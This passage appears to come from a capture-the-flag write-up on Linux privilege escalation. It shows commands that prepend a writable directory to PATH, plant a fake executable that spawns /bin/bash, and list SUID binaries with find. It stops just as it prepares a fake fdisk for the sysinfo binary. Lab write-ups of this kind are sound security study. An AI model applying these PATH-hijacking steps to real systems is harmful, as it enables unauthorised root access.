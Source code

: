 ```
-rwxr-xr-x 1 root root 56056 Nov  4  2019 /usr/bin/whoopsie
```

The PATH environment variable :

```
theseus@ubuntu:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

```
cd /tmp
mkdir test
cd test/
```

Create a file called whoopsie and write the following into it : 

```
#!/bin/bash

/bin/bash
```

Then

```
export PATH=$(pwd):$PATH
```

Execute

```
whoopsie
```

But it doesn't seem to give the root shell.


### Finding the SUID binaries 

```
find / -perm /4000 2>/dev/null
```

To find the SUID binaries.

You'll find a few binaries which might work with this.

```
/bin/umount
/bin/fusermount
/bin/sysinfo
/bin/mount
/bin/su
/bin/ping
```

After trying all the binaries I found out that the binary sysinfo is calling fdisk and lshw with sudo permissions. So for path injection I created a file fdisk in the /tmp/test directory and gave the following contents in it.
